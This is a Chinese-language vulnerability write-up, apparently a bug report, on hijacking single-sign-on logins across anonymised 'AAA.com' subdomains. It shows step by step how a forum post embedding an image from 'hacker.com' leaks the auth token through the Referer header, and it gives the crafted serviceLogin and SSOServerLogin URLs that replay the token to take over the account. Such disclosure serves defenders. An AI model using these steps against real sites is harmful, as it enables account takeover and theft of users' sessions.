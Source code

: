 获取到授权后，只需要在正常的模拟一次授权过程，把接收授权返回值的接口找出来，把通过referer获取到的auth值喂给它，即可登录对应用户的账户：
```
http://subdomain.AAA.com/SSOServerLogin?auth=xxxxxxxx&isiframe=1&location=687474703a2f2f7777772e62616964752e636f6d
```


上面的文字内容偏多，可能读起来费劲，以下为图文并茂内容。

可被黑客劫持用户授权的站点：
http://*.AAA.com/
http://*.BBB.com/

#### 漏洞细节：
AAA.com支持通过 “通行证”登录旗下各个站点，登录口是
`https://passport.AAA.com/`

在我们要登录`http://subdomain.AAA.com/`时就可以看到该接口

![图片4.png](C:\Users\todaro\Desktop\kjkk\图片4.png)
##### 【1】前期准备
一个“通行证”账号
登录后在子域名论坛发了个帖子
`http://bbs.subdomain.AAA.com/thread-942592-1-1.html`
![图片5.png](C:\Users\todaro\Desktop\kjkk\图片5.png)
帖子嵌入了一个外链图片
![图片6.png](C:\Users\todaro\Desktop\kjkk\图片6.png)
当这个页面被请求时，浏览器就会对外请求该图片
`http://hacker.com/jpg/12345.jpg`

然后黑客服务器可以通过记录referer来得知是哪一个站点发起的请求，即referer的数据都可得。

##### 【2】
在已经登录`https://passport.AAA.com/`的情况下
(1)访问
```
https://passport.AAA.com/sso/accounts/serviceLogin?continue=http://bbs.subdomain.AAA.com/thread-942592-1-1.html&isiframe=1&service=service_id&location=687474703a2f2f737562646f6d61696e2e4141412e636f6d2f&CSSStyle=https://static.xxx.AAA.com/sso/subdomain/style/login_t_cover160316.css
```
简单介绍一下`continue`参数指向的是我上面发布的那个帖子，`location`的值是通过网站的函数编码过的`http://subdomain.AAA.com/`

访问后，授权的数据就会自动附带在链接中如下：
![图片7.png](C:\Users\todaro\Desktop\kjkk\图片7.png)
可以看到在请求这张对外的图片时，也把授权用的`auth`等参数的值以referer的方式向网站发起了请求，而我们只需要在服务器记录请求即可获取到改值。

获取到这些值后：
`auth=xxxx&isiframe=1&location=687474703a2f2f737562646f6d61696e2e4141412e636f6d2f`

我们在浏览器的隐身窗口(以保证我们没有登录passport.AAA.com)中打开如下链接：
```
http://subdomain.AAA.com/SSOServerLogin?auth=xxxx&isiframe=1&location=687474703a2f2f737562646f6d61696e2e4141412e636f6d2f
```
即可登录对应账号在`subdomain.AAA.com`的用户中心
![图片8.png](C:\Users\todaro\Desktop\kjkk\图片8.png)
![图片9.png](C:\Users\todaro\Desktop\kjkk\图片9.png)
